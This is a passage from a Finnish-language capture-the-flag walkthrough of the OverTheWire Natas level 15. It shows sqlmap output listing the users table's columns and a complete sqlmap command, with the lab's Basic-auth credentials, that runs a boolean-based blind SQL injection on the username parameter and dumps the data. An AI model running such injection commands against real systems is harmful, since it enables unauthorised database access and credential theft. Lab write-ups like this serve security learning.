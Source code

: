 ```

[14:55:48] [INFO] fetching columns for table 'users' in database 'natas15'
[14:55:48] [INFO] resumed: 2
[14:55:48] [INFO] resumed: username
[14:55:48] [INFO] resumed: varchar(64)
[14:55:48] [INFO] resumed: password
[14:55:48] [INFO] resumed: varchar(64)
Database: natas15
Table: users
[2 columns]
+----------+-------------+
| Column   | Type        |
+----------+-------------+
| password | varchar(64) |
| username | varchar(64) |
+----------+-------------+

[14:55:48] [INFO] fetched data logged to text files under '/home/kali/.local/share/sqlmap/output/natas15.natas.labs.overthewire.org'
[14:55:48] [WARNING] your sqlmap version is outdated

[*] ending @ 14:55:48 /2025-05-18/
```


Viimeisenä: <br>
Tässä nyt päästään dumppaa (tulostaa) se mitä halutaan hakea just tämän `username` sarakkeesta ulos.
Eli kertauksena: -D (database) natas15 , --tables (taulukko) users, --column (sarake) username, --dump (dumppataan ulos sitä dataa). Samahan näillä on omia lyhenteitäkin.
```
┌──(kali㉿kali)-[~]
└─$ sqlmap -u "http://natas15.natas.labs.overthewire.org/index.php?debug" \
--auth-type Basic \
--auth-cred natas15:SdqIqBsFcz3yotlNYErZSZwblkm0lrvx \
--data "username=natas16" \
--string "This user exists" \
-D natas15 --tables users --columns username --dump
        ___
       __H__                                                                                                                              
 ___ ___["]_____ ___ ___  {1.8.5#stable}                                                                                                  
|_ -| . [(]     | .'| . |                                                                                                                 
|___|_  [']_|_|_|__,|  _|                                                                                                                 
      |_|V...       |_|   https://sqlmap.org                                                                                              

[!] legal disclaimer: Usage of sqlmap for attacking targets without prior mutual consent is illegal. It is the end user's responsibility to obey all applicable local, state and federal laws. Developers assume no liability and are not responsible for any misuse or damage caused by this program

[*] starting @ 14:56:21 /2025-05-18/

[14:56:22] [INFO] resuming back-end DBMS 'mysql' 
[14:56:22] [INFO] testing connection to the target URL
[14:56:22] [INFO] testing if the provided string is within the target URL page content
sqlmap resumed the following injection point(s) from stored session:
---
Parameter: username (POST)
    Type: boolean-based blind
    Title: AND boolean-based blind - WHERE or HAVING clause
```